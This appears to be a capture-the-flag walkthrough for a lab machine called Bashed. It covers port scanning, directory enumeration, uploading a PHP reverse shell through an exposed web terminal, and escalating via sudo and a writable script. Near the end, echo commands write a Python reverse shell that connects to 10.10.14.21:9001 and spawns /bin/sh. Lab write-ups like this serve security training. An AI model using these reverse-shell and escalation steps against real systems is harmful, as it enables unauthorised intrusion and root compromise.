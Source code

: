 We begin by performing a port scan to identify which services are available:

![image.png](./Uploads/Bashed-EscaneoP.png)

We identify that port **80** is open, which immediately suggests we are dealing with an HTTP server. Next, we analyze the services and versions associated with this port to understand what we're working with:

![image.png](./Uploads/Bashed-Versiones.png)

As part of my analysis methodology, I like to anticipate potential attack vectors by enumerating subdirectories early on. For this, I typically use **Gobuster**, as it’s fast and allows for manual control:

![image.png](./Uploads/BashedGobuster.png)

We discover subdirectories like `/images` and `/uploads`, which hint at a potential file upload vector. However, before jumping into exploitation, we visit these subdomains to gather more information:

![image.png](./Uploads/Bashed-ArchivoPhp.png)

Among the subdirectories, `/dev` stands out. Within it, we find `phpbash.php` — a web-based Bash emulator designed for easier directory interaction. This gives us an excellent opportunity to elevate privileges and establish remote access. From here, we move to the `/uploads` directory and attempt to deliver a PHP reverse shell, assuming `.php` file execution is allowed:

![image.png](./Uploads/DescargarReverseShell - Copy.png)

We use a basic PHP reverse shell script and, through our pseudo-terminal, perform a brief reconnaissance to prepare the environment. Then we upload the shell by setting up a listener using `nc` (netcat), and configure it to only transfer the reverse shell script:

![image.png](./Uploads/Enumeracion-TerminalWeb.png)

![image.png](./Uploads/PuertoEscuchaParaReverse.png)

From the pseudo-terminal, we make the request to download the reverse shell script into `/var/www/html/uploads:`  

![image.png](./Uploads/ReverseShellEstablecidaMaquinaVictima.png)

Afterward, we execute the uploaded script via the browser and start listening on the configured port to catch the reverse connection. It’s important to edit the PHP shell beforehand to insert your own IP and listening port:

![image.png](./Uploads/RutaParaEstablecerLaConexion.png)

Afterward, we execute the uploaded script via the browser and start listening on the configured port to catch the reverse connection. It’s important to edit the PHP shell beforehand to insert your own IP and listening port:

![Tratamiento tty.png](./Uploads/Tratamiento tty.png)

Once we receive the connection, we treat the TTY session to stabilize the shell and make it more usable (e.g., support for `tab` completion, `clear`, `nano`, etc.). The commands used for TTY stabilization are:

`bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo ; fg
reset
xterm
export TERM=xterm
export SHELL=bash`

With a stable shell, we proceed to privilege escalation. Since we previously enumerated the system via the web terminal, we now focus on identifying ways to escalate from the current www-data user, which has limited privileges.

We check for available sudo permissions and discover that we can execute commands as scriptmanager without a password. This allows us to escalate privileges using:

bash
Copy
Edit
sudo -u scriptmanager bash -i

![Tratamiento tty.png](./Uploads/CambiodeUsuarioAScriptManager.png)

From here, we explore the file system with ls -la / and notice a directory named /scripts. Inside, we find a writable script. We attempt to modify it to spawn a reverse shell using Python and connect back to our system on a new listener port:

bash
Copy
Edit
echo 'import socket,subprocess,os' > /scripts/test.py
echo 's=socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> /scripts/test.py
echo 's.connect(("10.10.14.21", 9001))' >> /scripts/test.py
echo 'os.dup2(s.fileno(),0)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),1)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),2)' >> /scripts/test.py
echo 'p=subprocess.call(["/bin/sh", "-i"])' >> /scripts/test.py
![Tratamiento tty.png](./Uploads/SobreescribiendoScriptEnScriptaManager.png)

After executing this script, we successfully receive a reverse shell as root on our listener:
![Tratamiento tty.png](./Uploads/Root.png)


Finally, we navigate to /home/arrexel to retrieve the user.txt flag, which is readable with a simple cat command:

![Tratamiento tty.png](./Uploads/FlagArrexel.png)
